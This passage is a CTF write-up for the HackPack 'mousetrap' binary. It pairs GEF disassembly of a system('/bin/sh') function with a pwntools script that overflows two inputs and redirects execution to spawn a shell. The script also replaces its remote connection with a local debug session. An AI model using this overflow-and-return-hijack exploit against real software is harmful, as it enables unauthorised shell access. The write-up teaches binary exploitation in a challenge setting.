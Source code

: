 Then there you can find the `system address` before that there should be `/bin/sh` shell so checking the string at address `0x400948`. 

```c
gef➤  disass cheeeeeeeese
Dump of assembler code for function cheeeeeeeese:
   0x0000000000400717 <+0>:	push   rbp
   0x0000000000400718 <+1>:	mov    rbp,rsp
   0x000000000040071b <+4>:	lea    rdi,[rip+0x226]        # 0x400948
   0x0000000000400722 <+11>:	call   0x4005f0 <system@plt>
   0x0000000000400727 <+16>:	nop
   0x0000000000400728 <+17>:	pop    rbp
   0x0000000000400729 <+18>:	ret    
End of assembler dump.
gef➤  x/s 0x400948
0x400948:	"/bin/sh"
gef➤  
```

So In order to execute the shell I had to call the address before the address of `/bin/sh` so that after overflow that address will be executed and we got the shell i.e. `0x000000000040071b`.

So my final payload was:- 

> Name => 24 + 1( to overflow) bytes
> 
Code Sequence => 24 + (address before /bin/sh) bytes

In order to execute this on server of `hackpack`and get a flag I made script in python.

```python
from pwn import * 
from sys import * 

context= ['tmux', 'new-window']
p=remote('cha.hackpack.club',41719)
elf=ELF("./mousetrap")
p=gdb.debug("./mousetrap")
p.recvuntil("Name: ")

# to overflow the Code sequence 
payload= "A"*24 
payload+= p64(0x40) #value to overflow the name variable
p.send(payload)

p.recvuntil("Enter Code Sequence of 64: ")

payload2= "A"*24
payload2+= p64(0x000000000040071b)#  address before /bin/sh
p.send(payload2)

p.interactive()
```

By running this I got the flag .

